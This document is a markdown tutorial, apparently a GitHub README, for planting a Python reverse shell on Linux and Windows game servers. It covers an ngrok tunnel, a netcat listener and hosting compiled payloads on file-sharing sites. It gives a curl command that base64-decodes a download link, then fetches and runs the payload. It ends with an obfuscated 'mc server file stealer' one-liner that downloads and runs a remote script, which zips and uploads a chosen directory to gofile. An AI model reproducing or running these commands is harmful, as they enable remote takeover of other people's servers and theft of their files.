 # Python Reverse Shell Tutorial (Linux and Windows Servers)
you will need [Python](https://www.python.org/downloads/), [Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip), & [Ngrok](https://ngrok.com)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
`ngrok tcp 4444`


4. **Start Netcat**  
`nc -lvp 4444`


5. **Download and Edit Python File**
   - [Download the Python file](https://catlitter.minoa.cat/api/view/bc52bb227eea93ac2dd0.zip) and edit the IP and port to be the Ngrok one.
   - (Must have python installed) run windows compile.bat and only if you have wsl setup you can run linux compile.bat and the files that show up are compilex executables.
   - Upload the compiled files to [catbox.moe](https://catbox.moe) or [CatLitter](https://catlitter.minoa.cat)

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL for whatever file to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into Ecstasy**
   - While logged into Ecstasy, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
`curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)`


8. **Encode Filename and Extension to Base64**
   - Encode the filename and extension that catbox.moe or Catlitter gives in the URL to Base64.

9. **Run the File**
Linux:
 `./rs`
Windows:
`start rs.exe`
 - If there are errors, idk..


# more
## Linux mc server file stealer
```
bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && ./steal.sh && rm -- steal.sh'
```
*(downloads and runs [this script](https://catlitter.minoa.cat/api/view/ad0b512a76b50c88ecef.sh) that zips and uploads whatever dir you enter to gofile and gives you the link only on linux)*
